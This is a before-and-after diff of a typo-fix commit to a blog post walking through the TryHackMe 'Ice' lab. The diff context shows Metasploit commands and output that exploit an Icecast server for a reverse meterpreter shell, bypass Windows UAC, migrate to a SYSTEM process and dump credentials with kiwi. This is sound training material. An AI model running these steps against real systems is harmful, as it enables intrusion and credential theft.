

Before and after one commit to bharathkarumudi/bharathkarumudi.github.io, a Jekyll site: the page built from _posts/2020-07-20-Ice-thm-walkthrough.md, in a window 1280 px wide and 1400 px high, scrolled down 3240 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Typo fix Fixes typos

````diff
--- a/_posts/2020-07-20-Ice-thm-walkthrough.md
+++ b/_posts/2020-07-20-Ice-thm-walkthrough.md
@@ -40,7 +40,7 @@
 ### Gain Access
 The victim is running a *Icecast Media server* which has a known vulnerability [CVE-2004-1561](https://www.cvedetails.com/cve/CVE-2004-1561) and is of type **Execute Code Overflow vulnerability**.
 
-Using this vulnerability exploit the victim and with `metasploit` to gain the remote shell.
+Using this vulnerability exploit the victim and using `metasploit` to gain the reverse shell.
 
 ```bash
 msf5 > search icecast
@@ -104,12 +104,12 @@
 dark-pc\dark
 ```
 
-We have successfully  exploited the victim and gained a meterpreter shell with the user *dark-pc\dark*.
-The remote machine is running on Windows 7 - Build 7601 and of 64-Bit architecture.
+- We have successfully exploited the victim and gained a meterpreter shell, with the user *dark-pc\dark*.
+- The remote machine is running on Windows 7 - Build 7601 and of 64-Bit architecture.
 
 ### Escalate the privileges
 
-By running a local exploit suggester on meterpreter, it suggested the victim is vulnerable to nine known vulnerabilities.
+By running a local exploit suggester from meterpreter, it suggested the victim is vulnerable to nine known vulnerabilities.
 
 ```bash
 meterpreter > run post/multi/recon/local_exploit_suggester
@@ -127,10 +127,10 @@
 [+] 10.10.88.122 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
 [+] 10.10.88.122 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
 ```
-From the results, the `exploit/windows/local/bypassuac_eventvwr` can be used to bypass the Windows UAC to esalate the privileges.
+From the results, the `exploit/windows/local/bypassuac_eventvwr` can be used to bypass the Windows UAC to escalate the privileges.
 
-Background the current session and note down the current session number by `sessions`.
-Load the exploit and set the LHOST and SESSION number that was recorded above.
+Background the current session (ctrl+z) and take a note of the current session number using `sessions` command from meterpreter.
+Load the exploit and set the LHOST and SESSION number to the one that was noted above.
 
 ```bash
 msf5> use exploit/windows/local/bypassuac_eventvwr
@@ -175,7 +175,7 @@
 [*] Meterpreter session 2 opened (10.2.18.4:4444 -> 10.10.88.122:49748) at 2020-07-20 20:31:18 -0400
 [*] Cleaning up registry keys ...
 ```
-The exploit ran successfully and we can see the privileges by running `getprivs`.
+The exploit ran successfully and we can also see the privileges by running the `getprivs`.
 
 ```bash
 meterpreter > getprivs
@@ -211,9 +211,10 @@
 
 meterpreter >
 ```
+From above results,
 - Using the `SeTakeOwnershipPrivilege`, we can take the ownership of the files.
 - We need to migrate our process to a stable and equally privileged, in order to access the `lsass` service (which is responsible for authentication).
-- List the running processes using `ps` and `migrate` to printer service.
+- List the running processes using `ps` and `migrate` to printer service, who is running with `x64` architecture and with `NT AUTHORITY\SYSTEM` user.
 
 ```bash
 meterpreter > ps
@@ -227,7 +228,7 @@
 
 ### Looting Credentials
 
-Using the `kiwi` extension into the meterpreter, lets extract the passwords with `creds_all`.
+Loading the `kiwi` extension into the meterpreter, lets extract the passwords of the victim with the option `creds_all`.
 
 ```bash
 meterpreter > creds_all
````
Also changed, not shown: other parts of _posts/2020-07-20-Ice-thm-walkthrough.md (+1 -1 lines).
